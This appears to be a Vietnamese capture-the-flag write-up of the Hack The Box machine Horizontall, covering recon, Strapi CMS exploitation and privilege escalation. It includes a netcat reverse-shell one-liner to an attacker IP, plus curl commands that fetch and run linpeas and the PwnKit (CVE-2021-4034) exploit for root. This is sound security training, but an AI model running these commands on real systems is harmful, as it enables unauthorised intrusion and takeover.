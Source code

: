 ![image](https://hackmd.io/_uploads/HkD2LxZjR.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/374/information)

## Comment

# Recon
## nmap 
Sau khi nmap ta scan được **2** port ssh và http 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.11.105       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:46 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.11.105
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:48 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.99 seconds
```
Thêm domain `horizontall.htb` vào `/etc/hosts`sẽ có trang chúng ta cần

## Port 80 - http
Khi truy cập vào ta có giao diện trang web

![image](https://hackmd.io/_uploads/S1mr2x-oC.png)

Trang web này không có một tính năng gì. Khi dùng devtool để kiểm tra các gói được load, `app.c68eb462.js` đề cập đến 1 subdomain khác là **api-prod.horizontall.htb**

![image](https://hackmd.io/_uploads/BJ-bAgWj0.png)

Thêm subdomain `api-prod.horizontall.htb` vào `/etc/hosts` sẽ có trang mới xuất hiện

![image](https://hackmd.io/_uploads/r1xZJWWiR.png)

## Gobuster 
Kết quả ban đầu của ta từ Gobuster không thú vị lắm
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
Tương tự với subdomain ta có 3 path khác với `users` đã bị 403
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
```

Với `/reviews` ta chưa thu thậm được gì nhiều về thông tin

![image](https://hackmd.io/_uploads/H1JXlbWiC.png)

Với `/admin` ta có 1 trang web sử dụng CMS Strapi 

![image](https://hackmd.io/_uploads/H1IdebWjA.png)

# User flag
## Exploit
### Searchsploit

![image](https://hackmd.io/_uploads/BkNE7ZWi0.png)

Nó cho ta kết quả của 3 loại khác thác đầu tiên lạm dụng cách Strapi xử lý sai các yêu cầu đặt lại mật khẩu; và thứ hai cho phép thực thi mã từ xa trong các thành phần cài đặt plugin vì nó không kiểm tra tên plugin.

`50237.py`

Đọc file này ta có thể xem được version của web mình là **3.0.0-beta.17.4**

![image](https://hackmd.io/_uploads/SkH_Lb-iC.png)

![image](https://hackmd.io/_uploads/SyuUIZZsC.png)

Từ đây khai thác bằng `Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)` 

![image](https://hackmd.io/_uploads/Bki_KZ-i0.png)

### Reverse shell
Vì nó là blind RCE khi chạy script nên ta sẽ dùng reverse dshell để nghe 
```
mkfifo /tmp/lol;nc 10.10.14.93 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![image](https://hackmd.io/_uploads/HyeyqZ-iR.png)

## Post-Exploit
```
$ cd /home
$ ls
developer
$ cd developer
$ ls
composer-setup.php
myproject
user.txt
$ cat user.txt
bf57a050fcb876ba6eb********
```
# Root flag
## Exploit
Tải linPeas về máy mục tiêu và chạy file
```
$ cd /tmp
$ curl http://10.10.14.93:8888/linpeas.sh -o linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.s
```
Khi chạy LinPeas ta thấy mục tiêu dễ bị tấn công bởi **CVE-2021-4034** (PwnKit privesc). Đây là một lỗ hổng leo thang đặc quyền trong linux sử dụng [PwnKit](https://github.com/ly4k/PwnKit?ref=avitek.blog). 

![image](https://hackmd.io/_uploads/HylYoWWiC.png)

```
#Máy tấn công 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#Máy mục tiêu
$ curl http://10.10.14.93:8888/PwnKit -o PwnKit
$ chmod +x PwnKit                                    
$ ./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)
```
## Post-Exploit
```
cat /root/root.txt
4113991bda122b655c8a6*****
```

![image](https://hackmd.io/_uploads/HyNszfboA.png)


